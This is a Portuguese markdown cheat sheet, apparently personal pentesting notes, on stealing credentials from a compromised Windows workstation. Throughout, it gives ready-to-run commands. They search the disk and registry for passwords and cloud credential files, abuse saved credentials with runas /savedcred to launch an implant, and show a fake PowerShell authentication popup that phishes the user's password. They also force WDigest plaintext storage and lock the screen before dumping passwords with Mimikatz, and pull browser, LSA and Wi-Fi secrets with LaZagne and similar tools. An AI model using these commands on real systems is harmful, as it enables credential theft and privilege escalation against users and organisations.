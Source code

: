 ## Windows Desktop/Workstation Host Post-Exp
> ___

Post-Exp locamente, no contexto de estar sob controle de uma maquina (com shell ou logado com creds). Depois do acesso você precisa fazer recon localmente e seguir com a exploração para escalar privilégio.

- https://attack.mitre.org/techniques/T1087/001/


## Recon Stuff
> ___

- LPE https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html

- cmd commands https://book.hacktricks.wiki/en/windows-hardening/basic-cmd-for-pentesters.html

- ps commands https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/index.html



## Pegando passwords em cleartext 
> ___


#### Procurando senhas em plaintext

- lista todos os diretorios a partir do c:\
- ``` C:\> dir /b /a /s c:\ > output.txt ```
  - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- Filtra por arquivos com nome "passw"
- ``` C:\> type output.txt | findstr /i passw ```

- No PS
- ``` get-childitem -path c:\ -recurse -force | select-object -expandproperty fullname > output.txt```

https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dir#examples


#### Nomes e Extenções de arquivos interessantes para verificar

- Extenções: install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .conf, ,ini, .xml, .txt, .gpg, .pgp, .p12, .der, .crs, .cer, id_rsa, id_dsa, .ovpn, vnc,
ftp, ssh, vpn, git, .kdbx, .db

- Arquivos: unattend.xml, Unattended.xml, sysprep.inf, sysprep.xml, VARIABLES.DAT, setupinfo, setupinfo.bak, web.config, SiteList.xml, .aws\credentials, .azure\accessTokens,json, .azure\azureProfile.json, gcloud\credentials.db, gcloud\legacy_credentials, gcloud\access_tokens.db

- ``` C:\> type output.txt | findstr /i algumas extenção ```



#### Arquivos nos Registries 

- ``` reg query HKLM /f password /t REG_SZ /s ```


- ``` reg query "HKCU\Software\ORL\WinVNC3\Passowrd" ```
 
- ``` reg query "HKCU\Software\TightVNC\Server" ```

- ``` reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" ```

- ``` reg query "HKCU\Software\SimonTatham\PuTTY\Sessions\local" ```



#### Abusing Credential Manager

- Credential Manager
  - O Credential Manager é uma espécie de cofre digital dentro do sistema Windows. O Windows armazena credenciais de registry, como usernames e senhas...

- Do ponto de vista do invasor, geralmente você não tem acesso a uma GUI... Então você usa a linha de comando. Na linha de comando existe uma ferramenta chamada "cmdkey".

  - O cmdkey também permite listar essas informações.
    - ``` C:\> cmdkey /list ```

- Podemos acessar o diretório inicial do administrador e executar processos como administrador:
  - ``` C:\> runas /user:administrator cmd.exe``` <===== precisa de admin pass

  - ``` C:\> runas /savedcred /user:administrator cmd.exe ```
    - windows vai até Credential Manager, verifica o usuário admin (consulta o banco de dados), extrai a senha do usuário admin e executa o processo. (execute como administrador com integrity level medium)

- Podemos listar todos os diretórios aos quais não temos acesso.
  - ``` C:\> runas /savedcred /user:administrator "c:\windows\system32\cmd.exe /c dir /b /a /s c:\users\administrator > c:\output-admin.txt" ```
    - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- Também podemos usar esse comando para rodar um implant:
  - ``` C:\> runas /savedcred /user:administrator "c:\path\to\implant.exe" ```


#### Popup local para pegar as creds de um user

- Cria um popup que pede a senha do usuário atual

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::Username,[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'CHANGE THIS WITH OTHER USERNAME',[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```


#### Forçando o WDigest a armazenar credenciais em plaintext

Como parte do WDigest authentication provider, as versões do Windows até 8 e 2012 costumavam armazenar credenciais de logon na memória em plaintext por padrão, o que não é mais o caso com versões mais recentes do Windows. 

Mas ainda é possível forçar o WDigest a armazenar os secrets em plaintext.


Então como fazer isso? A opção mais fácil é definir a resgistry key para colocar o senhas de volta no LSASS. Dentro do HKLM existe uma config  ```UseLogonCredential``` que, se definido como 0, armazenará as credenciais de volta na memória:

- ```reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 ```

- Pelo Empire pode ser assim:
```shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDige /v UseLogonCredential /t REG_DWORD /d 1 f```


O problema com esta configuração é que precisaremos que o usuário faça login novamente no sistema. Você pode forçar lock-screen, reboot ou logoff, para poder capturar credenciais em clear text. A maneira mais fácil é bloquear sua estação de trabalho:

- ```rundll32.exe user32.dll,LockWorkStation```

Depois de ativar a tela de bloqueio e fazer com que o alvo façam login novamente, podemos executar o Mimikatz e recuperar as senhas.

- ```sekurlsa::logonpasswords```


REFS: 
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext
- https://github.com/gentilkiwi/mimikatz/wiki


#### Scripts para recon e para extrait passwords da memória, navegadores e etc:

```mimikatz # dpapi::chrome /in:"C:\Users\USERNAME\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect```

```mimikatz.exe "token::elevate" "lsadump::secrets" exit```

- wifi pass ```netsh wlan show profile name=ESSID key=clear```

- Chrome, FireFox, Opera e mais https://github.com/AlessandroZ/LaZagne
  - ```Lazagne.exe browsers -firefox```
  - ```python firefox_decrypt.py C:\Users\USERNAME\AppData\Roaming\Mozilla\FireFox\Profiles\random-val.default```
  - ```Lazagne.exe wifi```
  - ```Lazagne.exe all```

- Mimikittenz (https://github.com/putterpanda/mimikittenz)

- Web Creds: https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1

- Windows Credentials: https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1

- Browser Data https://github.com/LimerBoy/Adamantium-Thief
  - https://github.com/moonD4rk/HackBrowserData

- histórico e cookies do navegador: https://github.com/sekirkity/BrowserGather 

- A tool SessionGopher (https://github.com/fireeye/SessionGopher) pode pegar hostnames e senhas salvas do WinSCP, PuTTY, SuperPuTTY, FileZilla, e Microsoft Remote Desktop.


#### Conforme eu for achando e testando tecnicas e tools novas vou atualizar aqui.

